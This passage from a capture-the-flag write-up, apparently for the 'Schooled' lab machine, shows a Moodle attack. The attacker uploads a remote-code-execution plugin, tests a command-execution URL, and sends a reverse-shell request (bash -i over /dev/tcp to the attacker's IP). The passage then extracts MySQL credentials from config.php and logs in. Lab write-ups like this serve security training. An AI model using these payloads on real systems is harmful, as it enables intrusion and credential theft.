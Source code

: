 After sending the requests, it is possible to install plugins:

![Enabled plugins](schooled_web-8.png)

There is a **Remote Code Execution** plugin in this [GitHub repository](https://github.com/HoangKien1020/Moodle_RCE) that has to be uploaded as a ZIP file.
```
Install plugin from ZIP file -> Upload a file -> Choose rce.zip -> Install plugin from the ZIP file
```

Testing the code execution with the `id` command:
```
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```

It works and can now be used to gain a reverse shell:
```
GET /moodle/blocks/rce/lang/en/block_rce.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1' HTTP/1.1
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

The file _/usr/local/www/apache24/data/moodle/config.php_ contains credentials for the **MySQL database**:
```
$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
(...)
```

Login to MySQL:
```
mysql -u moodle -D moodle -p
```
